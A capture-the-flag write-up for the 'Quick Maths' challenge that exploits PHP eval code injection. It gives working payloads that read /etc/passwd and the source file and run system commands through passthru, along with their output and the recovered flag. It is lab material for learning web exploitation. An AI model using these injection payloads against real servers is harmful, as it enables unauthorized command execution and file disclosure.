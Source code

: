 ### Challenge
```
Quick Maths
208
http://challenges.auctf.com:30021

two plus two is four minus three that's one quick maths

Author: shinigami
```

### Recon
* Positive functionality of math works fine
* Adding special characters like `; &&` for command injection check returns `PHP eval error`
* Code injection with PHP eval error
  - phpinfo return php details
  - get_file_contents to any url returns the respective page
    - $homepage = file_get_contents('flag.txt');echo $homepage;
      - No such file
    
    - $homepage = file_get_contents('index.php');echo $homepage;
```
    - Result"; echo evaluate(); } ?>
```
    - $homepage = file_get_contents('/etc/passwd');echo $homepage;

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false
```

* We got file traversal, `shadow` returns permission denied
* Try for flag elsewhere
  * /etc/flag.txt
  * /home/flag.txt
  * flag.txt

* Try reverse shell to connect back to you, then get full system access to traverse files and read them ( we knew it did connect to http website so this should work? )

* Or System Exec directly --> `$homepage = passthru('ls');echo $homepage;`
```
Result
index.php
```
* command SET
```
APACHE_CONFDIR='/etc/apache2' APACHE_ENVVARS='/etc/apache2/envvars' APACHE_LOCK_DIR='/var/lock/apache2' APACHE_LOG_DIR='/var/log/apache2' APACHE_PID_FILE='/var/run/apache2/apache2.pid' APACHE_RUN_DIR='/var/run/apache2' APACHE_RUN_GROUP='www-data' APACHE_RUN_USER='www-data' GPG_KEYS='1A4E8B7277C42E53DBA9C7B9BCAA30EA9C0D5763 6E4F6AB321FDC07F2C332E3AC2BF0BC433CFC8B3' HOSTNAME='fa04021d0626' IFS=' ' LANG='C' OPTIND='1' PATH='/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin' PHPIZE_DEPS='autoconf dpkg-dev file g++ gcc libc-dev make pkg-config re2c' PHP_ASC_URL='https://secure.php.net/get/php-7.0.33.tar.xz.asc/from/this/mirror' PHP_CFLAGS='-fstack-protector-strong -fpic -fpie -O2' PHP_CPPFLAGS='-fstack-protector-strong -fpic -fpie -O2' PHP_EXTRA_BUILD_DEPS='apache2-dev' PHP_EXTRA_CONFIGURE_ARGS='--with-apxs2 --disable-cgi' PHP_INI_DIR='/usr/local/etc/php' PHP_LDFLAGS='-Wl,-O1 -Wl,--hash-style=both -pie' PHP_MD5='' PHP_SHA256='ab8c5be6e32b1f8d032909dedaaaa4bbb1a209e519abb01a52ce3914f9a13d96' PHP_URL='https://secure.php.net/get/php-7.0.33.tar.xz/from/this/mirror' PHP_VERSION='7.0.33' PPID='21' PS1='$ ' PS2='> ' PS4='+ ' PWD='/var/www/html' SHLVL='0'
```

* find the flag. $homepage = `passthru('find -L / -name "flag*"');echo $homepage;` --> took forever!

* grep to find the flag --> `$homepage = passthru('grep -r "auctf" *');echo $homepage;`
```
$flag = "auctf{p6p_1nj3c7i0n_iz_k3wl}";
```

### Solve